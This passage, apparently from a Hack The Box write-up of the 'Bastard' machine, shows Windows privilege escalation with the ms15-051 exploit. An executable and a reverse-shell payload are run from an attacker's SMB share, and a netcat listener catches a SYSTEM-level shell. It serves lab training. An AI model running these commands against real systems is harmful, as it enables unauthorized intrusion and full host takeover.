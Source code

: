 ```bash
PS C:\inetpub\drupal-7.54> PS C:\inetpub\drupal-7.54> \\10.10.14.15\kali\ms15.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1724 created.
==============================
nt authority\system
PS C:\inetpub\drupal-7.54> \\10.10.14.15\kali\ms15.exe \\10.10.14.15\kali\shell.exe
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/htb/bastard$ nc -lvp 8082
listening on [any] 8082 ...
connect to [10.10.14.15] from bastard.htb [10.10.10.9] 49178
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
```

And we are SYSTEM !.